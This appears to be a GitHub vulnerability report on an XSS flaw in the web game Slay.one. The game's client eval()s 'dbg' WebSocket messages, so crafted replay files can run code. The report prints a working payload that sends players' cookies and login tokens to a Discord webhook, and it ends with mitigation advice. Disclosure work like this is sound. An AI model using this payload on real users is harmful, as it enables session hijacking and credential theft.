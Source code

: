 
<div align="center">
  <img src="./imgs/logo.png" alt="Logo" />
</div>

# Exploit Report 'dbg' 
This repository documents a vulnerability, for cross-site scripting (XSS) attacks, in Slay.one's, a popular web-based pixel shooter game, replay files.

## Introduction 
[Slay.one](https://slay.one) is a popular web-based, top-down pixel shooter game. Despite its engaging gameplay, it suffers from a serious vulnerability that exposes users to cross-site scripting (XSS) attacks. This report outlines the nature of the vulnerability, how it can be exploited, and recommendations for mitigating the risk.

## Proof of Concept (PoC)
The vulnerability resides in the `client-bundle.js` file, specifically in the code responsible for processing WebSocket messages from the server. The problematic section of code is as follows:

```javascript
else if ("dbg" === arr[0]) // 'dbg' packet sent from the server
    try {
        eval(msg.substring(4)); // eval() allows arbitrary code execution
    } catch (e) {}
```

Here, the use of `eval()` poses a critical security risk, as it allows the execution of arbitrary JavaScript code passed within WebSocket messages.

### Exploitation
Attackers can exploit this vulnerability using Slay.one's replay feature, which lets users download and upload game replays. A replay file can be modified to include malicious code that executes in the victim’s browser when the file is uploaded and viewed.

### Proof of Concept Code
The following example demonstrates how an attacker could edit a replay file to exploit this vulnerability. When the replay is loaded, the malicious code steals the user’s cookies and authentication tokens, sending them to a Discord webhook.

#### Malicious Code Example
```javascript
dbg$fetch('https://discord.com/api/webhooks/{webhookID}/{webhookToken}', {
    method: 'POST',
    headers: { 'Content-Type': 'application/json' },
    body: JSON.stringify({
        content: 'Stolen Cookies: ' + document.cookie + 
                 ' Login Token: ' + localStorage.autologin
    })
});
```

### Potential Effects
Exploiting this vulnerability allows attackers to:
- **Hijack user sessions**: Stolen cookies can be used to impersonate users.
- **Steal sensitive information**: Attackers can access authentication tokens stored in `localStorage`.
- **Execute arbitrary code**: This can lead to additional compromises, including malware delivery or unauthorized actions.

## Recommendations for Mitigation
To address this vulnerability and improve overall security, the following measures are recommended:

- **Eliminate `eval()` usage**: 
- **Validate and sanitize inputs**
- **Implement Content Security Policy (CSP)**
- **Enhance WebSocket security**: 

---

By implementing these measures, Slay.one can significantly reduce the risk of XSS attacks, providing a safer and more secure experience for its players.
